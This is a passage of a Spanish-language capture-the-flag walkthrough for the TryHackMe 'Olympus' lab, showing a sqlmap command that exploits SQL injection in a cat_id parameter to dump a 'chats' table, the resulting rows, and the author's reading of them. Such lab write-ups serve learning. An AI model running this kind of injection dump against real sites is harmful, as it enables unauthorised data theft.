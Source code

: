 Bien. Qué hemos conseguido ? Una relación de usuarios y hashes, guay. Pero qué más ? ... Mirad con atención las direcciones de correo. Bingo ! ... al parecer hay un subdominio en danza *chat.olympus.thm* ... existirá realmente ? ... estará operativo ? ... 

A saber, pero antes de salir de dudas a ese respecto y aprovechando que estamos con **sqlmap**, si revisamos nuestras notas veremos que hay una tabla *chats* dentro de la DB *olympus*. Vamos a volcarla a ver qué nos cuenta.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T chats  --dump
```

```
Database: olympus
Table: chats
[3 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+

```

Bien. El dump nos ofrece una conjunto de registros con mensajes y algunos datos interesantes:

* El usuario *prometheus* ha atacheado un fichero con el nombre *"prometheus_password.txt"*, pero al intentar descargarlo de la *"upload folder"*, no ha podido. Al parecer el fichero ha sufrido algun tipo de *"modificación"*.

* El usuario *zeus* le responde contándole que el *"IT guy"* ha implementado una función que modifica el nombre de los ficheros de manera aleatoria antes de almacenarlos con el objetivo de dificultar el acceso a posibles atacantes.

* Un nombre de fichero *"47c3210d51761686f3af40a875eeaaea.txt"* aparece asociado al registro del envío de *"prometheus_password.txt"*
